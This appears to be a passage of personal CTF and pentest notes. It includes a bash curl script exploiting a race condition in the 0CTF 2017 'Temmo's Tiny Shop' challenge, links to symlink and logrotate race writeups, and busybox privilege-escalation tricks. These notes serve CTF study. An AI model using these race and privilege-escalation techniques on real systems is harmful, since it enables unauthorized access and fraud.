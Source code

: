 # racing, race-condition

```bash
username=
password=
cookie1="PHPSESSID=3k21rt4acut215r1adlrq5m0p0"
cookie2="PHPSESSID=ck8pgb52nkkb8sdg2c95ms7s16"
url="http://202.120.7.197/app.php"

curl "$url?action=login" -b $cookie1 -d "username=$username&pwd=$password" &\
curl "$url?action=login" -b $cookie2 -d "username=$username&pwd=$password"

curl "$url?action=buy&id=1" -b $cookie1

curl "$url?action=sale&id=1" -b $cookie1 &\
curl "$url?action=sale&id=1" -b $cookie2
```
    - [Temmo's Tiny Shop - 0CTF 2017](https://www.40huo.cn/blog/0ctf-2017-writeup.html)

### symlink

- [Book \- HackThebox | Samir Ettali](https://samirettali.com/writeups/hackthebox/book/)
    - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition

# priviledge escalation

- https://gtfobins.github.io
- busybox - act as arbitrary file
    ```bash
    # if owner of file, can use chmod to fix permissions
    upx -o /tmp/chmod /bin/busybox
    # || tar
    # || /lib/ld-musl-x86_64.so.1 /bin/busybox cat
    # || setpriv /bin/busybox cat
    ```

